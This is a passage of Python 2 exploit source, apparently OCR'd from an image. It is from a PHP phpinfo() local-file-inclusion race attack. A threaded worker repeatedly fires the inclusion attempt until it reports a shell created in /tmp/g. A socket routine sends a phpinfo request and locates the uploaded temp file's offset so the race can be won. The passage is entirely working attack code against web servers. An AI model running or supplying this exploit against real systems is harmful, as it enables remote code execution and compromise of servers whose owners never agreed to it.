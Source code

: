         if d.find(tag) != -1:
            return fn

    counter=0
    class ThreadWorker(threading.Thread):
        def __init__(self, e, l, m, *args):
            threading.Thread.__init__(self)
            self.event = e
            self.lock =  l
            self.maxattempts = m
            self.args = args

        def run(self):
            global counter
            while not self.event.is_set():
                with self.lock:
                    if counter >= self.maxattempts:
                        return
                    counter+=1

                try:
                    x = phpInfoLFI(*self.args)
                    if self.event.is_set():
                        break                
                    if x:
                        print "\nGot it! Shell created in /tmp/g"
                        self.event.set()
                        
                except socket.error:
                    return
        

    def getOffset(host, port, phpinforeq):
        """Gets offset of tmp_name in the php output"""
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host,port))
        s.send(phpinforeq)
        
        d = ""
        while True:
            i = s.recv(4096)
            d+=i        
            if i == "":
                break
            # detect the final chunk
            if i.endswith("0\r\n\r\n"):
                break
        s.close()
        i = d.find("[tmp_name] => ")
        if i == -1:
            raise ValueError("No php tmp_name in phpinfo output")
        
        print "found %s at %i" % (d[i:i+10],i)
        # padded up a bit
        return i+256
